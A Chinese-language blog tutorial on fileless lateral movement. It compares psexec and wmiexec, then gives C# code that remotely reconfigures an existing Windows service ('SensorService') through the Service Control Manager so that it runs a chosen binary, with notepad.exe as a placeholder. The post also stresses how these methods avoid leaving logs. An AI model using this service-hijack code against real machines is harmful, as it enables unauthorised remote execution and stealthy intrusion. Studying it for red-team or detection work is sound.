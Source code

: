 ```yaml
---
layout: post
title: 无文件横向移动

---
```


## 0x01  

之前遇到过一些场景，比如使用psexec和wmi的区别。

### psexec执行原理

1.通过ipc$连接，释放psexecsvc.exe到目标
2.通过服务管理SCManager远程创建psexecsvc服务，并启动服务。
3.客户端连接执行命令，服务端启动相应的程序并执行回显数据。
4.运行完后删除服务。这个在windows的日志中有详细的记录，另外psexec在少数情况下会出现服务没删除成功的bug，所以一般不推荐使用psexec，推荐wmiexec

工具说明：
需要远程系统开启admin$共享
建立IP超链接后可以不指定用户名和密码
不能仅拷贝文件不行执行，拷贝时可以建立ipc连接后拷贝
在启动psexec建立连接后，远程系统上会被安装一个服务:psexecsvc，安装服务会留下日志，而且psexec推出时有可能服务删除失败，所以不推荐使用psexec

### wmiexec执行原理

wmi介绍
全称是Windows management instrumentation，它出现在所有的Windows操作系统中，并由一组强大的工具集合组成，用于管理本地或远程的Windows系统，攻击者使用wmi来进行攻击，但Windows系统默认不会再日志中记录这些操作，可以做到无日志，攻击脚本无需写入到磁盘，增加了隐蔽性。推荐使用wmiexec进行远程执行命令
wmiexec介绍
大牛使用VBS脚本调用WMI来模拟 psexec 的功能，于是乎WMIEXEC 就诞生了。基本上psexec 能用的地方，这个脚本也能够使用。整个过程是先调用WMI通过账号密码或者NTLM认证（WCE注入）连接到远程计算机，然后如果提供了账号密码，则用这个账号密码建立一个到目标的IPC连接。随后WMI会建立一个共享文件夹，用于远程读取命令执行结果。 当用户输入命令时，WMI创建进程执行该命令，然后把结果输出到文件，这个文件位于之前创建的共享文件夹中。最后，通过FSO组件访问远程共享文件夹中的结果文件，将结果输出。当结果读取完成时，调用WMI执行命令删除结果文件。最后当WMIEXEC退出时，删除文件共享。

## 0x02

### 完成身份验证

重构下功能， 使用OpenSCManagerW api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115144546.png)

微软官方查看OpenSCMangerW函数原型

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115144620.png)

参数lpMachineName写计算机名字，lpDatabaseName服务控制管理器数据库的名称，此参数如果是Null，则默认打开SERVICES_ACTIVE_DATABASE数据库，参数dwDesiredAcess是对服务控制管理器的访问权限，给他完整的SC_MANAGER_ALL_ACCESS，数值为0xF003F

```c#
using System;
using System.Runtime.InteropServices;
namespace NoPsexec
{
    class Program
    {
        [DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true,
       CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr OpenSCManager(string machineName, string databaseName,
       uint dwAccess);
        static void Main(string[] args)
        {   
            String target = "Web01"; //计算机名称

            IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);
        }
    }

}
```

### 打开现有服务

我们需要打开一个现有的服务，使用OpenService api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115150405.png)

OpenService三个参数，将句柄给OpenSCManager收到的服务控制管理器，第二个参数lpServiceName写服务名称，最后一个参数是服务权限，直接给到最高权限完全控制即可，Service_all_access

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115150655.png)

定义一个ServiceName，这里使用string ServiceName = "SensorService";

一项用于管理各种传感器的功能的传感器服务。管理传感器的简单设备方向(SDO)和历史记录。加载对设备方向变化进行报告的 SDO 传感器。如果停止或禁用了此服务，则将不会加载 SDO 传感器，因此不会发生自动旋转。来自传感器的历史记录收集也将停止。

### 修改服务二进制文件

使用ChangeServiceConfigAPI更改服务二进制文件

BOOL ChangeServiceConfigA(
  [in]            SC_HANDLE hService,
  [in]            DWORD     dwServiceType,
  [in]            DWORD     dwStartType,
  [in]            DWORD     dwErrorControl,
  [in, optional]  LPCSTR    lpBinaryPathName,
  [in, optional]  LPCSTR    lpLoadOrderGroup,
  [out, optional] LPDWORD   lpdwTagId,
  [in, optional]  LPCSTR    lpDependencies,
  [in, optional]  LPCSTR    lpServiceStartName,
  [in, optional]  LPCSTR    lpPassword,
  [in, optional]  LPCSTR    lpDisplayName
);

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115151942.png)

```c#
 static void Main(string[] args)
        {   
            String target = "Db02"; //计算机名称

            IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);
            string ServiceName = "SensorService";
            IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);
            string payload = "notepad.exe";
            bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null,
            null, null, null, null);
        }


```

已经把SensorService的服务可执行文件路径修改成了notepad.exe

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115153521.png)

### 启动服务

bResult = StartService(schService, 0, null);

最后直接NoPsexec.exe即可，Process Explorer里面可以看到起了一个Notepad.exe进程。

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115154258.png)

完整代码见github.
